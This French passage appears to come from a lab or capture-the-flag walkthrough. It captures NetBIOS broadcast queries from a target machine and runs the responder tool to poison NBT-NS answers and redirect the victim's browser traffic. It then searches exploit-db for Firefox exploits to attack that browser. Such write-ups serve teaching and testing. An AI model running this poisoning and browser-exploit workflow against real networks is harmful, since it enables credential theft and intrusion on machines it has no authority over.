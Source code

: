 ~~~bash
QuestionClass=0x1


08:33:01.979097 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto UDP (17), length 78)
    leopold.46610 > 192.168.122.255.netbios-ns: [udp sum ok] 
>>> NBT UDP PACKET(137): QUERY; REQUEST; BROADCAST
TrnID=0x5DC6
OpCode=0
NmFlags=0x11
Rcode=0
QueryCount=1
AnswerCount=0
AuthorityCount=0
AddressRecCount=0 
QuestionRecords:                            
Name=DISNEYWORLD     NameType=0x00 (Workstation)    
QuestionType=0x20 
QuestionClass=0x1
~~~

Comme nous le voyons ici, de jolies requêtes en broadcast sont émises par la machine. Il s'agit en fait de requêtes `netbios` vers un serveur Active Directory. Voyons voir avec `responder` :

~~~bash
root@kali:~# responder -I eth0 -wrfv                                    

[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 192.168.122.131 for name DISNEYWORLD
[FINGER] OS Version     : Unix
[FINGER] Client Version : Samba 3.6.6

~~~

Ici, `responder` répond à la place du serveur `ActiveDirectory` pour rediriger la cible vers notre machine d'attaque.

Avec `tcpdump` (en parallèle) nous constatons en effet des requêtes `HTTP` venant de notre cible sur notre machine d'attaque : 

~~~bash
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
~~~

> J'ai lancé ceci tcpdump  'src 192.168.122.131' -w leopold.pcap 

Nous allons maintenant chercher un exploit permettant d'attaquer le navigateur de la cible : 

~~~bash
root@kali:~# searchsploit -e Firefox --exclude="denial of service" -w
Mozilla Firefox - 'Array.reduceRight()' Integer Overflow (Metasploit) (2)     | https://www.exploit-db.com/exploits/17976
Mozilla Firefox - 'nsTreeRange' Dangling Pointer (2)                          | https://www.exploit-db.com/exploits/17419
Mozilla Firefox - 'pdf.js' Privileged JavaScript Injection (Metasploit)       | https://www.exploit-db.com/exploits/37958
Mozilla Firefox - 'table' Use-After-Free                                      | https://www.exploit-db.com/exploits/41660
Mozilla Firefox - Interleaving 'document.write' / 'appendChild' (Metasploit)  | https://www.exploit-db.com/exploits/16509
Mozilla Firefox - Proxy Prototype Privileged JavaScript Injection             | https://www.exploit-db.com/exploits/36480
~~~